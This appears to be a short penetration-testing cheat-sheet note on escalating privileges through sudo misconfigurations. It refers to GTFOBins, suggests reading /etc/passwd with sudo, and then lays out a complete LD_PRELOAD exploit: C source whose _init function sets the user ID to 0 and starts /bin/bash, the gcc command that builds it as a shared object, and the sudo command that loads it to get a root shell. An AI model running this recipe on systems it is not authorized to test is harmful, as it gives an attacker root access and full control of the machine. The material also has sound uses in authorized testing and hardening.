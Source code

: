 some programs may have the ability to use sudo with them
[GTFObins](https://gtfobins.github.io/) has great resources on how to get information on how to escape many program with sudo to gain root access
# If the file has no known exploits
Try checking if you can display files like /etc/passwd with sudo
## LD_PRELOAD
[this blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) shows you how to use LD_PRELOAD to inject things into programs, if env_keep option is enabled you can generate a shared library that will be loaded and executed before the program is run. NOTE LD_PRELOAD will be ignored if the real user ID is different from the effective user ID
steps:
1. Check for LD_PRELOAD with env_keep option
2. Write simple C code compiled as a shared object file
3. Run program with sudo rights and the LD_PRELOAD option pointing to the so file
### example
the c code to spawn a root shell
```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
	unsetenv("LD_PRELOAD");  
	setgid(0);  
	setuid(0);  
	system("/bin/bash");  
}
```
compile it to a shared object file
```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
then running the program with the LD_PRELOAD option
```shell
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```